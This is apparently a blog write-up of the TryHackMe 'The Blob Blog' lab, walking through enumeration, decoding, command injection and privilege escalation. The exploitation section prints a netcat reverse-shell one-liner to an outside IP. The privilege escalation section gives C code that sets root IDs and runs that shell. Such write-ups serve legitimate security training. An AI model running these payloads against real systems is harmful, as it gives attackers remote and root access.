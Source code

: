 ```yaml
---
title: The-Blob-Blog TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/1.png)

## Scanning
We scan with **nmap** all ports with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/2.png)

## Enumeration
We access the website, we find the default Apache Ubuntu page. 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/3.png)

We find in the source code a text encoded in "*base64*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/4.png)

We decode the text and get as a result another one, this time it is encoded in "*brainfuck*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/5.png)

We decode the text, it seems to give us a "*hint*" to perform port knocking and discover some new service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/6.png)

We download the **[knock](https://github.com/grongor/knock)** tool and use the port sequence mentioned in the hint. 
After finishing, we do a new nmap and find two new ports (*21, 8080 and 445*).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/7.png)

Using **dirsearch** on port *8080 web service*, we found several interesting paths to a blog.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/8.png)

The credentials are tested in the authentication panel, but they do not work. We try to access through the **FTP** service and they do work.

In the **FTP** there is only one *photo* that could contain stego, but there is nothing else interesting (at the moment).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/9.png)

Again, we launched **nmap** to check software versions of the new ports. We found that *port 445* (normally SMB) is an *HTTP service*!!!!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/10.png)

We access the web resource through port 445, in the source code we find some credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/11.png)

We launch the **dirsearch** tool again on the new resource and find a directory called *"/user"* which provides us with a private *SSH key*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/12.png)

#### Evidence of SSH Private key

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/13.png)

Now with the previously found password, we extract the text file that contains the previous image, it hides a path and credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/14.png)

We access the web path that hid the text file found, it seems to give us a clue and sign a user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/15.png)

We tried the credentials, but they do not work. The **hint** left a word at the end of the text, this made me think that maybe they were encoded or encrypted, so I tried with *vigenère* and it worked!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/16.png)

Enter your credentials and you have access to the blog.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/17.png)

## Exploitation

We see that from the form field we are able to execute system commands.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/18.png)

#### Result

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/19.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/20.png)

We do a little reconnaissance, we try *two images* of two puppies, we test to see if they contain any information with **steghide** (without password) and one of them shows us a cipher text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/21.png)

No comment....

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/22.png)

We tested the passwords found with the two users and one of them works with the user *"bob"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/23.png)

We found the rare "*blogFeedback*" binary, downloaded it and analyzed it with "**Ghidra**".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/25.png)

We see that the binary asks for a numerical sequence being less than 7 digits and that it executes a shell with the user *UID/GID 1000:1000 (bobloblaw)*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/26.png)

We put the sequence of the *6 digits less than 7*, we see that we already have shell as the user "*bobloblaw*", we look for the flag and read it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/27.png)

## Privilege Escalation

We run "*sudo -l*" and we see that we have access to two binaries with *SUDO*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/28.png)

I'm trying to play around with these binaries, but I can't get anything...There is a rather annoying message that keeps popping up on the screen. We launch the **pspy64** tool and see what is running.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/30.png)

``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)
{
setreuid(0,0);
system("/bin/sh rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f");
return(0);
}
```
We create a file in **C** with our reverse shell, replace it with the legitimate one and wait for it to compile and run on the victim machine... We receive a connection as the *root user* ;)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/31.png)





